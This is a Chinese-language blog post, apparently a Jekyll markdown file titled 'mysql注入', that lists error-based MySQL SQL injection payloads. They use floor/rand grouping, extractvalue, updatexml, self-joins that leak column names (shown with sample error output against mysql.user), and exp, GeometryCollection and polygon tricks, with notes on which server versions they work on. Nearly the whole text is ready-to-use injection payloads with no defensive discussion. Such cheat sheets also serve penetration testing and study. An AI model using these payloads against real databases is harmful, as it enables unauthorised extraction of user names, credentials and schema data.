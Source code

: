 ```yaml
---
layout: post
title: mysql注入
date: 2020-07-10 20:00:10 +0300
description: mysql # Add post description (optional)
img: bg.jpg # Add image post (optional)
tags: [sqlmap, mysql] # add tag
---
```


## SQL注入类型

### 报错注入

#### 1、通过floor报错

```
select 1 from (select count(*),concat(floor(rand(0)*2),user())a from information_schema.tables group by a)b
```

#### 2、通过ExtractValue报错

extractvalue(1, concat(0x5c, (select user()),0x5c))

#### 3、通过UpdateXml报错

updatexml(1,concat(0x3a,(select user())),1)

#### 4、通过join报错(爆列名)

select * from(select * from 表名 a join 表名 b)c;

```
mysql> select * from(select * from mysql.user a join mysql.user b)c;
ERROR 1060 (42S21): Duplicate column name 'Host'
mysql> select * from(select * from mysql.user a join mysql.user b using(host))c;
ERROR 1060 (42S21): Duplicate column name 'User'
mysql> select * from(select * from mysql.user a join mysql.user b using(host,User))c;
ERROR 1060 (42S21): Duplicate column name 'Password'
```

#### 5、通过exp报错 (5.5.44通过，5.5.53以上不行)

exp(~(select * from (select user())a))

#### 6、通过GeometryCollection()报错(5.5.44通过，5.5.53以上不行)

GeometryCollection((select * from (select * from (select user())a)b))

#### 7、通过polygon ()报错(5.5.44通过，5.5.53以上不行)

polygon((select * from (select * from (select user())a)b))
